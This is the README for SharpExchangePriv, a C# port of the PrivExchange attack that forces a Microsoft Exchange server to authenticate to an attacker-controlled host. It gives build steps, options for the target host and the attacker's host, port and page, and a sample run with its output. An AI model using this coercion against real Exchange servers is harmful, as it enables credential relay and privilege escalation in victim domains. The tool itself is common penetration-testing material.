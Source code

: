 # SharpExchangePriv

## Description ##

A C# implementation of PrivExchange by [@_dirkjan](https://twitter.com/_dirkjan). Kudos to [@g0ldenGunSec](https://twitter.com/G0ldenGunSec), as I relied on his code.

It was tested against Exchange 2015.

## Compile Instructions ## 

SharpExchangePriv has been built against .NET 3.5 and is compatible with Visual Studio 2017. Simply open the solution file and build the project.

I used the CommandLineParser in order to parse the arguments. This will create the `CommandLine.dll` file, along with the executable. You can simple merget the .exe and the .dll into one executable file:

`ILMerge.exe /out:C:\SharpExchangePriv.exe C:\Release\SharpExchangePriv.exe C:\Release\CommandLine.dll`

## Usage ##

#### `--targetHost`

Set the IP of the target host.

#### `--attackerHost`

Set the attacker's IP

#### `--attackerPort`

Set the attacker's port

#### `--attackerPage`

Set the attacker's page

#### `--ssl`

Enable SSL

#### `--exchangeVersion`

Set Exchange version, default is 2015

#### `--exchangePort`

Set Exchange target port

## Example ##

```
C:\Users\george.brown\Desktop>SharpExchangePriv.exe --attackerHost 192.168.11.132 --targetHost 192.168.11.10
 /$$$$$$$           /$$            /$$$$$$$$                     /$$
| $$__  $$         |__/           | $$_____/                    | $$
| $$  \ $$ /$$$$$$  /$$ /$$    /$$| $$       /$$   /$$  /$$$$$$$| $$$$$$$   /$$$$$$  /$$$$$$$   /$$$$$$   /$$$$$$
| $$$$$$$//$$__  $$| $$|  $$  /$$/| $$$$$   |  $$ /$$/ /$$_____/| $$__  $$ |____  $$| $$__  $$ /$$__  $$ /$$__  $$
| $$____ /| $$  \__ /| $$ \  $$/$$/ | $$__ /    \  $$$$/ | $$      | $$  \ $$  /$$$$$$$| $$  \ $$| $$  \ $$| $$$$$$$$
| $$     | $$      | $$  \  $$$/  | $$        >$$  $$ | $$      | $$  | $$ /$$__  $$| $$  | $$| $$  | $$| $$_____ /
| $$     | $$      | $$   \  $/   | $$$$$$$$ /$$/\  $$|  $$$$$$$| $$  | $$|  $$$$$$$| $$  | $$|  $$$$$$$|  $$$$$$$
|__/     |__/      |__/    \_/    |________/|__/  \__/ \_______/|__/  |__/ \_______/|__/  |__/ \____  $$ \_______/
                                                                                               /$$  \ $$
                                                                                              |  $$$$$$/
                                                                                               \______ /
                                                                                                            @den_n1s

The target URL is https://192.168.11.10:443/EWS/Exchange.asmx

Sent request to exchange server: https://192.168.11.10:443/EWS/Exchange.asmx

HTTP 200 response received, the target Exchange server should be authenticating shortly.
```

## Contact ##

Please submit any bugs on the Github project page or give me a shout on twitter [@den_n1s](https://twitter.com/den_n1s)
